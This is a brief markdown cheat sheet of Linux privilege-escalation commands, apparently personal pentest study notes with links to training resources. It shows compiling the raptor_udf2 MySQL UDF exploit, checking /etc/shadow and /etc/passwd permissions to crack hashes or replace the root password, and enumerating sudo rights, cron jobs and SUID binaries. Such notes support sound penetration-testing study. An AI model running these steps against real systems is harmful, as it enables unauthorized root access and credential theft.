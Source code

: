# Linux Privesc Commands

![](.gitbook/assets/root.png)

---

## 🌐 Resources 🔗

> - [Ignitetechnologies/Privilege-Escalation](https://github.com/Ignitetechnologies/Privilege-Escalation)
> - [Linux - Privilege Escalation - Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/)
> - [PEASS-ng/linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
> - [Basic Linux Privilege Escalation - g0tmi1k](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
> - [Linux Privilege Escalation – Resources – Siren Security](https://sirensecurity.io/blog/linux-privilege-escalation-resources/)
> - [unix-privesc-check | pentestmonkey](https://pentestmonkey.net/tools/audit/unix-privesc-check)
> - [TryHackMe | Linux Privilege Escalation](https://tryhackme.com/room/linprivesc)
> - [Linux Privilege Escalation for OSCP & Beyond! | Tib3rius (One-Time Purchase)](https://courses.tib3rius.com/p/linux-privilege-escalation-for-oscp-beyond)
> - [Privilege Escalation on Linux (With Examples)](https://delinea.com/blog/linux-privilege-escalation)

---

```bash
# https://www.exploit-db.com/exploits/1518
cd /home/user/tools/mysql-udf
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```bash
ls -l /etc/shadow
# Bruteforce hashes or if world-writable, generate new password and replace root pw
mkpasswd -m sha-512 pwhere

ls -l /etc/passwd
# If world-writable, generate new password and replace root pw
openssl passwd pwhere
```

```bash
sudo -l
# https://gtfobins.github.io/

cat /etc/crontab
# check file/scripts permissions, path environment variable
```

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
find / -type f -perm -4000 2>/dev/null

# https://www.exploit-db.com/
```

...

---

